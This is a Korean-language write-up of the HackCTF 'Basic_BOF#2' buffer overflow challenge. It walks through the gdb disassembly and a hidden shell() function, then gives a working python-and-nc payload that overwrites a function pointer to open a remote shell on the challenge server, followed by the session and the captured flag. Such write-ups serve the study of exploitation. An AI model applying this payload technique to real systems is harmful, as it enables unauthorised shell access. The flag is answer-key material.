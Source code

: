 #Basic_BOF\#2

---

`main()`의 코드는 다음과 같다.

```assembly
gdb-peda$ pd main
Dump of assembler code for function main:
   0x080484cd <+0>:	lea    ecx,[esp+0x4]
   0x080484d1 <+4>:	and    esp,0xfffffff0
   0x080484d4 <+7>:	push   DWORD PTR [ecx-0x4]
   0x080484d7 <+10>:	push   ebp
   0x080484d8 <+11>:	mov    ebp,esp
   0x080484da <+13>:	push   ecx
   0x080484db <+14>:	sub    esp,0x94
   0x080484e1 <+20>:	mov    DWORD PTR [ebp-0xc],0x80484b4
   0x080484e8 <+27>:	mov    eax,ds:0x804a040
   0x080484ed <+32>:	sub    esp,0x4
   0x080484f0 <+35>:	push   eax
   0x080484f1 <+36>:	push   0x85
   0x080484f6 <+41>:	lea    eax,[ebp-0x8c]
   0x080484fc <+47>:	push   eax
   0x080484fd <+48>:	call   0x8048350 <fgets@plt>
   0x08048502 <+53>:	add    esp,0x10
   0x08048505 <+56>:	mov    eax,DWORD PTR [ebp-0xc]
   0x08048508 <+59>:	call   eax
   0x0804850a <+61>:	mov    eax,0x0
   0x0804850f <+66>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x08048512 <+69>:	leave  
   0x08048513 <+70>:	lea    esp,[ecx-0x4]
   0x08048516 <+73>:	ret    
End of assembler dump.
```

기초적인 bufferoverflow문제이다. 해당 코드를 보면 stdin으로 0x85만큼을 **ebp-0x8c**에 받는다. 그리고 **ebp-0xc**에 있는 주소를 call한다. 입력할 수 있는 byte수는 0x85이고, 입력받는 공간과 **ebp-0xc**와의 주소 차이는 0x80이기 때문에 `system()`의 주소를 가져와 **"/bin/sh"**를 인자로 넘기는 방법은 불가능하다.

때문에 ida를 통해서 함수를 살펴보니 다음과 같은 `shell()`함수가 있었다.

    int shell()
    {
      return system("/bin/dash");
    }

이 함수 `shell()`의 주소는 다음과 같다.

    gdb-peda$ p shell
    $2 = {<text variable, no debug info>} 0x804849b <shell>

때문에 {[dummy 0x80byte]+`shell()`의 주소}와 같이 payload를 짜면 된다.

    sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/2.Basic_BOF#2$ (python -c "print 'A'*0x80+'\x9b\x84\x04\x08'";cat) | nc ctf.j0n9hyun.xyz 3001
    ls
    flag
    main
    cat flag
    HackCTF{h3y_dud3_600d_f0r_y0u}

**flag: HackCTF{h3y_dud3_600d_f0r_y0u}**